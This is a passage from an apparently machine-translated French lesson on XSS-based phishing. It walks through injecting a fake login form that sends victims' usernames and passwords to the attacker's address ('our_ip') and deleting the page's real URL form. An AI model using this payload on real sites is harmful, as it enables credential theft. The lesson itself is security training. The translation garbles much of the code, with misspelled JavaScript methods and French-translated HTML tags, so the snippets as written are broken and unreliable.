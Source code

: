 Nous pouvons voir que le champ URL est toujours affiché, ce qui bat notre ligne de "'Veuillez vous connecter pour continuer'". Donc, pour encourager la victime à utiliser le formulaire de connexion, nous devons supprimer le champ URL, de sorte qu'ils peuvent penser qu'ils doivent se connecter pour pouvoir utiliser la page. Pour ce faire, nous pouvons utiliser la fonction JavaScript `Document.getElementyId (). Suppter ()` Fonction.

Pour trouver le `id` de l'élément HTML que nous voulons supprimer, nous pouvons ouvrir le` Page Inspector Picker 'en cliquant sur [`Ctrl + Shift + C`] puis en cliquant sur l'élément dont nous avons besoin :
![PAGE Inspector Picker](https://academy.hackthebox.com/storage/modules/103/xss_page_inspector_picker.jpg)

Comme nous le voyons à la fois dans le code source et le texte de survol, le formulaire `URL` a l'ID` Urlform`:

Code: HTML

```
<form role = "form" action = "index.php" méthode = "get" id = 'urlform'>
     <input type = "text" placeholder = "Image url" name = "url">
</ form>
```

Ainsi, nous pouvons désormais utiliser cet ID avec la fonction `retire ()` pour supprimer le formulaire URL:

Code: JavaScript
```
document.getElementById ('Urlform'). Remove ();

```

Maintenant, une fois que nous ajouterons ce code à notre précédent code JavaScript (après la fonction «document.write`), nous pouvons utiliser ce nouveau code JavaScript dans notre charge utile:

Code: JavaScript

```
document.write ('<h3> Veuillez vous connecter pour continuer </h3> <formulaire Action = http: // our_ip> <input type = "username" name = "username" placeholder = "username"> <input type = "mot de passe "name =" mot de passe "placeholder =" mot de passe "> <input type =" soumide "name =" soumi "value =" login "> </ form> '); document.getElementById (' urlform '). dispen ();
```

Lorsque nous essayons d'injecter notre code JavaScript mis à jour, nous voyons que le formulaire URL n'est en effet plus affiché:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_2.jpg)

Nous voyons également qu'il reste un morceau du code HTML d'origine après notre formulaire de connexion injecté. Cela peut être supprimé en le commentant simplement, en ajoutant un commentaire d'ouverture HTML après notre charge utile XSS:

Code: HTML

```
... PAYLOAD ... <! -

```
